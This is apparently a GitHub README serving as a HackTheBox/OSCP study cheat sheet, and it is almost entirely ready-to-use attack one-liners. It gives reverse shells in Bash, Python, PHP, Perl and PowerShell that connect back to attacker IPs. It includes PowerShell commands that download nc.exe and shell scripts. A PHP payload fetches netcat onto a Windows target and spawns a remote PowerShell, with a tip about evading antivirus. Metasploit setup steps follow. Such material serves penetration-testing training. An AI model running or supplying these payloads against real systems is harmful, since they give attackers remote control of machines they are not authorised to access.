 # HackTheBox
For OSCP preparation!

## CheatSheet
* [Reverse shell](#Reverse)
* [Powershell Cheatsheet](#PSCheat)
* [Metasploit Setup](#Metasploit)
### Bash

```bash
bash -i >& /dev/tcp/{IP}}/{PORT}} 0>&1
sh -i >& /dev/udp/{IP}/{PORT}} 0>&1

0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

### Python

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### php
```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```Powershell
Create shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## PSCheat


**One Liner Download file with powershell**
```Download File -Powershell
cmd.exe> powershell IWR http://10.12.12.12/nc.exe -outfile \\PATH\\nc.exe

PS> Invoke-WebRequest http://10.10.15.15/shell.ps1 -OutFile c:\shell.ps1
```
**One liner PHP Reverse shell when Target machine is Windows**
```

<?= system("powershell IWR http://10.12.12.12/nc.exe -outfile \\windows\\temp\\nc.exe; \\windows\\temp\\nc.exe 10.12.12.12 4444 -e powershell.exe 2>&1") ?>

Start Listerner > nc -lvnp 4444
If reverse shell does not connect -Verify if target machine has AV as it may delete the netcat.
```
## Metasploit

```
root@Miracle:~# apt update; apt install metasploit-framework 
root@Miracle:~# msfdb delete
root@Miracle:~# msfdb init
root@Miracle:~# cp /usr/share/metasploit-framework/config/database.yml /root/.msf4/
root@Miracle:~# service postgresql restart
root@Miracle:~# msfconsole
MSF5 > db_status
Msf5 > db_rebuild_cache

Easy
```
